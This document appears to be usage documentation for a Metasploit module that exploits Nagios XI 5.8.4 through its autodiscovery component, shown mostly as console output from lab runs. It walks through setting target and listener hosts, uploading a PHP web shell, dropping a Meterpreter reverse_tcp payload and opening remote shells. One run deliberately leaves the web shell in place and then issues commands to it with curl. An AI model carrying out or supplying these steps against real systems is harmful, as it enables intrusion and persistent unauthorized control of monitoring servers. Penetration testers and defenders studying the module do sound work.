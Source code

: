 ```
[*] Deleting autodiscovery job
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo nyjlVFXNgWehsWFs;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "nyjlVFXNgWehsWFs\n"
[*] Matching...
[*] A is input...
[+] Deleted /usr/local/nagiosxi/html/includes/components/highcharts/exporting-server/temp/OalF9GV4AC.php
[*] Command shell session 1 opened (10.0.0.3:4444 -> 10.0.0.6:44226 ) at 2022-02-05 17:56:49 -0800

whoami
www-data
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),135(Debian-snmp),1001(nagios),1002(nagcmd)
pwd
/usr/local/nagiosxi/html/includes/components/highcharts/exporting-server/temp
```

### Nagios XI 5.8.4 - Leave a web shell behind

```
msf > use exploit/linux/http/nagios_xi_autodiscovery_webshell
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf exploit(linux/http/nagios_xi_autodiscovery_webshell) > set RHOST 10.0.0.6
RHOST => 10.0.0.6
msf exploit(linux/http/nagios_xi_autodiscovery_webshell) > set LHOST 10.0.0.3
LHOST => 10.0.0.3
msf exploit(linux/http/nagios_xi_autodiscovery_webshell) > set PASSWORD labpass1
PASSWORD => labpass1
msf exploit(linux/http/nagios_xi_autodiscovery_webshell) > set DELETE_WEBSHELL false
DELETE_WEBSHELL => false
msf exploit(linux/http/nagios_xi_autodiscovery_webshell) > set WEBSHELL_NAME lobster.php
WEBSHELL_NAME => lobster.php
msf exploit(linux/http/nagios_xi_autodiscovery_webshell) > run

[*] Started reverse TCP handler on 10.0.0.3:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] The target appears to be vulnerable. Determined using the self-reported version: 5.8.4
[*] Attempting to grab a CSRF token from /nagiosxi/includes/components/autodiscovery/?mode=newjob
[*] Uploading webshell to /nagiosxi/includes/components/highcharts/exporting-server/temp/lobster.php
[*] Testing if web shell installation was successful
[+] Web shell installed at /nagiosxi/includes/components/highcharts/exporting-server/temp/lobster.php
[*] Executing Linux Dropper for linux/x86/meterpreter/reverse_tcp
[*] Sending stage (989032 bytes) to 10.0.0.6
[*] Command Stager progress - 100.00% done (700/700 bytes)
[*] Deleting autodiscovery job
[*] Meterpreter session 1 opened (10.0.0.3:4444 -> 10.0.0.6:44230 ) at 2022-02-05 18:07:14 -0800

meterpreter > quit
[*] Shutting down Meterpreter...

[*] 10.0.0.6 - Meterpreter session 1 closed.  Reason: User exit
msf exploit(linux/http/nagios_xi_autodiscovery_webshell) > exit
albinolobster@ubuntu:~/metasploit-framework$ curl --insecure https://10.0.0.6/nagiosxi/includes/components/highcharts/exporting-server/temp/lobster.php?cmd=id
```